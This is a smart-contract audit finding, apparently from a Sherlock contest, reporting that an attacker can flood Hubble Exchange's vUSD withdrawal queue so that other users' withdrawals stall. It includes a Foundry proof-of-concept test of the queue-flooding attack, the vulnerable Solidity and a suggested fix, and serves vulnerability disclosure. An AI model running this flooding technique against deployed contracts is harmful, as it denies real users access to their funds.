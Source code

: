 # Original link
https://github.com/sherlock-audit/2023-04-hubble-exchange-judging/issues/94
0xbepresent

medium

# Malicious actor can flood the `vUSD` withdrawals causing a single user to spend a lot of gas when processing their withdrawal via `MarginAccountHelper.withdrawFromInsuranceFund()` or `MarginAccountHelper.removeMarginInUSD()`

## Summary

Malicious actor can flood the `vUSD` withdrawals list causing the users to spend a lot of gas when processing their withdrawals via [MarginAccountHelper.withdrawFromInsuranceFund()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L71) or [MarginAccountHelper.removeMarginInUSD()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L53) functions. 


## Vulnerability Detail

The [MarginAccountHelper.withdrawFromInsuranceFund()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L71) function helps to withdraw the `vUSD` from insurance fund and get gas token (usdc). The function execute the next calls:
1. It gets the `vUSD` from the insurance contract
2. It burns the `vUSD` tokens in order to get gas token.
3. It calls [vusd.processWithdrawals()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L75C9-L75C35) in order to execute all the queued withdrawals.

The problem is the [vusd.processWithdrawals()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L75C9-L75C35) function proccess all the withdrawals from other users which can be expensive and even his whitdrawal may not been proccessed. Same behaivour is in the [removeMarginInUSD()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L57) funciton.

I created a test where a Malicious actor can flood the withdrawals list with `5e6` amount of each one, causing that the `vusd.processWithdrawals()` to be very expensive to proccess and the withdrawals from alice and bob are not proccessed. Test steps:

1. Attacker mints 500e6 vUSD.
2. Alice and bob mint 5e6 vUSD each one.
3. Attacker floods the withdrawals with 5e6 each one.
4. Alice and bob withdraw at the end.
5. The `processWithdrawals()` is executed but it only executes the attacker withdrawals.

```solidity
// test/foundry/VUSDWithReceive.t.sol
// $ forge test --match-test "testFloodWithdrawals" -vvv
//
    function testFloodWithdrawals() public {
        // A single user might spent a lot of gas in order to withdraw his tokens.
        // An attacker can flood the withdrawals with malicious withdrawals of 5e6 each one.
        // 1. Attacker mints 500e6 vUSD.
        // 2. Alice and bob mint 5e6 vUSD each one.
        // 3. Attacker floods the withdrawals with 5e6 each one.
        // 4. Alice and bob withdraw at the end.
        // 5. The processWithdrawals() is executed but it only executes the attacker withdrawals.
        //
        uint256 amount = 5e6;
        address attacker = address(1337);
        //
        // 1. Attacker mints 500e6 vUSD.
        //
        mintVusd(attacker, 500e6);
        //
        // 2. Alice and bob mint 5e6 vUSD each one.
        //
        mintVusd(alice, amount);
        mintVusd(bob, amount);
        //
        // 3. Attacker floods the withdrawals with 5e6 each one.
        //
        for (int i; i < 100; i++){
            vm.prank(attacker);
            husd.withdraw(5e6);
        }
        //
        // 4. Alice and bob withdraw at the end.
        //
        vm.prank(alice);
        husd.withdraw(amount);
        vm.prank(bob);
        husd.withdraw(amount);
        // assert the withdrawals length and start number.
        assertEq(husd.maxWithdrawalProcesses(), 100);
        assertEq(husd.withdrawalQLength(), 102);
        assertEq(husd.start(), 0);
        //
        // 5. The processWithdrawals() is executed but it only executes the attacker withdrawals.
        //
        husd.processWithdrawals();
        assertEq(husd.start(), 100);
        assertEq(attacker.balance, uint(500e6) * 1e12);
        assertEq(alice.balance, 0);
        assertEq(bob.balance, 0);
    }
```

## Impact

The `withdrawals` list can be flooded by a malicious actor causing the [processWithdrawals()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/VUSD.sol#L65C14-L65C32) function to take a lot of work/gas to process. Additionally the withdrawal for a single user can be queued via [withdrawFromInsuranceFund()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L71) or [removeMarginInUSD()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L53) but his withdrawal may not be proccessed becuase the user may be proccessing the [first 100 withdrawals](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/VUSD.sol#L35) and his withdrawal may be still queued.

Additionally the attack could be cheap since the protocol is deployed on a Avalanche fork.

## Code Snippet

The [withdrawFromInsuranceFund()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L71) function:

```solidity
File: MarginAccountHelper.sol
53:     function removeMarginInUSD(uint256 amount) external {
54:         address trader = msg.sender;
55:         marginAccount.removeMarginFor(VUSD_IDX, amount, trader);
56:         vusd.withdrawTo(trader, amount);
57:         vusd.processWithdrawals();
58:     }
...
...
71:     function withdrawFromInsuranceFund(uint256 shares) external {
72:         address user = msg.sender;
73:         uint amount = insuranceFund.withdrawFor(user, shares);
74:         vusd.withdrawTo(user, amount);
75:         vusd.processWithdrawals();
76:     }

```

The [VUSD.processWithdrawals()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/VUSD.sol#L65C14-L65C32) and [VUSD._withdrawTo()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/VUSD.sol#L109) functions:

```solidity
File: VUSD.sol
065:     function processWithdrawals() external override whenNotPaused nonReentrant {
066:         uint reserve = address(this).balance;
067:         require(reserve >= withdrawals[start].amount, 'Cannot process withdrawals at this time: Not enough balance');
068:         uint i = start;
069:         while (i < withdrawals.length && (i - start) < maxWithdrawalProcesses) {
070:             Withdrawal memory withdrawal = withdrawals[i];
071:             if (reserve < withdrawal.amount) {
072:                 break;
073:             }
074: 
075:             (bool success, bytes memory data) = withdrawal.usr.call{value: withdrawal.amount}("");
076:             if (success) {
077:                 reserve -= withdrawal.amount;
078:             } else {
079:                 emit WithdrawalFailed(withdrawal.usr, withdrawal.amount, data);
080:             }
081:             i += 1;
082:         }
083:         // re-entracy not possible, hence can update `start` at the end
084:         start = i;
085:     }
...
...
109:     function _withdrawTo(address to, uint amount) internal {
110:         require(amount >= 5 * (10 ** PRECISION), "min withdraw is 5 vusd");
111:         burn(amount); // burn vusd from msg.sender
112:         withdrawals.push(Withdrawal(to, amount * SCALING_FACTOR));
113:     }
```

## Tool used

Manual review

## Recommendation

The `vUSD` burn and `usdc` withdrawal could be in the same [VUSD._withdrawTo()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/VUSD.sol#L109) transaction:

```diff
    function _withdrawTo(address to, uint amount) internal {
        require(amount >= 5 * (10 ** PRECISION), "min withdraw is 5 vusd");
        burn(amount); // burn vusd from msg.sender
--      withdrawals.push(Withdrawal(to, amount * SCALING_FACTOR));
++      (bool success, bytes memory data) = to.call{value: amount * SCALING_FACTOR}("");
    }
```

Duplicate of #81 
